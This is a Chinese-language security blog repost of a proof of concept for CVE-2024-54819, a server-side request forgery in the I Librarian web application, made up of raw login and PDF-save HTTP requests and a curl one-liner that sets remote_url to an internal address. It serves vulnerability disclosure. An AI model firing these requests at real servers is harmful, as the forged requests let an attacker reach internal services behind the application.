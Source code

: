 #  CVE-2024-54819 - I Librarian 服务器端请求伪造   
 Ots安全   2024-12-31 05:48  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
**CVE-2024-54819**  
  
阅读更多详细信息：https: //www.partywave.site 关于 CVE-2024-54819  
  
**POST 请求登录**  
  
攻击者必须被记录  
  
```
POST /librarian/index.php/authentication HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

username=[USERNAME]&password=[PASSWORD]&csrfToken=[CSRF_TOKEN]
```  
  
  
  
**POST 请求保存 PDF**  
  
remote_url parameter容易受到弱验证的影响  
  
```
POST /librarian/index.php/pdf/save HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[removed ...]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1920
X-Requested-With: XMLHttpRequest
Content-Length: 135
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/librarian/index.php/item
Cookie: IL=[LIBRARIAN COOKIE] # for example: IL=poscnjta68n2691tehd5gt9k9e
[removed ...]

remote_url=[PAYLOAD]&id=[PDF_ID]&csrfToken=[CSRF_TOKEN]
```  
  
  
**Bash 单行命令**  
  
这个单行代码是一个利用服务器端请求伪造的示例值的示例：  
  
```
curl -X POST http://127.0.0.1/librarian/index.php/pdf/save -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: IL=rcidrisa6hukk5amtmol06b0if" --data-urlencode "remote_url=http://0:6565" --data-urlencode "id=2" --data-urlencode "csrfToken=f3aa558cc79ebf4c48ee042ad61aeaebdf9e9a52b44c64174de398f4f46959df" --proxy http://127.0.0.1:8080
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tac2WkUhWWlzB0iamBeUTtdibxTbMjZJxao7M3EAvQEYmWlfRHI8EYLSvI39iaVPqwQhIVaWkMACceSxQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tac2WkUhWWlzB0iamBeUTtdibxyAzTB3anQiaCJ1uYkiaiaYdeF4hHK38WehckE1FiaaJgPYgRdCRnTAvvUQ/640?wx_fmt=png&from=appmsg "")  
  
  
**项目地址：**  
  
https://github.com/partywavesec/CVE-2024-54819?tab=readme-ov-file  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
